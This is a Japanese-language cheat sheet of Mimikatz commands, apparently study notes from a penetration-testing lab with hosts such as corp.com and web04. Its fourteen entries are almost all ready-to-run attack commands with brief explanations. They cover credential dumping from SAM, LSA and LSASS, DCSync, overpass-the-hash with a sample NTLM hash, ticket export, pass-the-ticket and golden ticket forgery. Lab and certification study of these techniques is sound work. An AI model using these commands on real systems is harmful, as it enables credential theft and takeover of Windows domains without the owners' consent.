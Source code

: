 # Mimikatz
[Documentation]()

## コマンド集

1. Mimikatzのプロセスにデバッグ権限を要求して、認証情報の抽出を可能にする。SeDebugPrivlege権限を取得する。
```
privilege::debug
```

2. SYSTEM権限に昇格する
```
token::elevate
```

3. SAMデータベースからユーザのNTLMハッシュをダンプする
```
lsadump::sam
```

4. Sekurlsaモジュールを使ってログオンしているすべてのユーザの資格情報、ハッシュをダンプする
```
sekurlsa::logonpasswords
```

5. jeffadminユーザとして、ターゲットのweb04.corp.comサービスにおける認証チケットを作成する。
```
kerberos::golden /sid:<sid> /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:(ターゲットNTLMハッシュ) /user:jeffadmin
```

6. DCSYNC攻撃をするためのコマンドで、/userの引数にドメイン\ユーザの形式で指定。これでターゲットユーザの資格情報を取得できる。
```
lsadump::dcsync /user:corp\dave
```

7. Pass the HashではなくOverpass the Hash攻撃。ターゲットユーザのNTLMハッシュを使ってpowershellを起動する。  
PtHとの違いとして、Kerberosを使って認証している点がある。
```
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell
```

8. 長い出力を後で見やすくするように"hoge.txt"に出力の結果をログとして保存する。他のコマンドを実行する前にこのコマンドを実行しておく。
```
log "hoge.txt"
```

9. メモリからすべての**Ticket Granting Ticket**と**Ticket Granting Service**をエクスポートする。  
エクスポートされたファイルは、.kirbi形式でディスクに保存される。  
このコマンドは、TGS/TGTのメモリ内にあるLSASSのプロセス領域を解析してダンプしている。
```
sekurlsa::tickets /export
```

10. ticketsのエクスポートで出力された.kirbi形式の**Ticket Granting Service**ファイルを選択して、Pass the Ticketを行う。  
OKが返ってくればインジェクションは成功。この時点で、klistをするとセッション内にチケットが入っていることを確認できる。
```
kerberos::ptt [0;102990]-0-0-40810000-dave@cifs-web04.kirbi 
```

11. Local Security AuthorityことLSAからユーザのNTLMをダンプできる。
```
lsadump::lsa /patch
```

12. 既存のKerberosチケットを削除する。新しくゴールデンチケットを作るときとかに使う。
```
kerberos::purge
```

13. ゴールデンチケットを偽造する。  
既存のユーザ名を指定する必要があり、sidはwhoami /userで確認可能。
```
kerberos::golden /user:<既存のユーザ名> /domain:corp.com /sid:<指定したユーザのSID、whoami /userで確認できる> /krbtgt:<krbtgtユーザのNTLMhash> /ptt
```

14. 現在のmimikatzセッションでcmdを起動する。ゴールデンチケット生成した後とかはこれやらないと意味ない。
```
misc::cmd
```